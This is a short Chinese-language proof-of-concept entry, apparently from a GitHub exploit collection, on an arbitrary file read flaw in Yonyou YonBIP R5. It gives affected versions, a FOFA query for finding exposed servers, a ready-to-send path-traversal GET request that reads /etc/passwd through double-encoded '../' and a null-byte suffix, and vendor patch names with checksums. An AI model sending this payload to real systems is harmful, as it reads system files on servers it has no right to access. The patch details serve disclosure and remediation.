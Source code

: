 用友YonBIP R5旗舰版 yonbiplogin 任意文件读取漏洞

漏洞描述：用友YonBIP R5旗舰版 是用友网络科技股份有限公司推出的一款企业级管理软件，属于其企业级信息化解决方案的一部分，广泛应用于大中型企业的资源管理、数据分析和业务流程自动化等领域。

影响范围：YonBIP V3.0(R5_2312)、YonBIP V3.0(R5_2312_SP240517)

FOFA：title="数字化工作台" || title="YonBIP"

Payload：GET /iuap-apcom-workbench/ucf-wh/yonbiplogin/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%2500.jpg.js HTTP/1.1

![用友YonBIP R5旗舰版 yonbiplogin 任意文件读取漏洞](https://github.com/capable-Hub/POC/blob/main/images/b9iwwurioaaic8iy.png)

修复建议：

基于专属化盘版本号进行排查，补丁请至“云产品补丁中心”中下载。

YonBIP V3.0(R5_2312_SP240517);

补丁名称：TNS_iuap-fe-webhome_iuap.V6.R5_2312_SP240517_36_QP20240927-2

校验码：dbe6149dab9dce75e81717d7a343861cfd81306b

依赖补丁：TNS_iuap.V6.R5_2312_36_SP20240605-2


YonBIP V3.0(R5_2312)：

补丁名称：TNS_iuap-fe-webhome_iuap.V6.R5_2312_36_QP20241021-2

校验码：a35e4160d7b7aab7e68fc9cd0cc36e5c05011058


YonBIP V3.0(R5_2312)：R5 standalone版本补丁

补丁名称：TNS_iuap-fe-webhome_iuap.V6.R5_2312_37_QP20241024-1

校验码：8ee58fbaac546a8278924579ba0e38e339a418c0


备注：

1025（包含）以上版本合集补丁包含该安全补丁

参考链接：YonBIP R5旗舰版任意文件读取安全风险通告：https://security.yonyou.com/#/noticeInfo?id=627

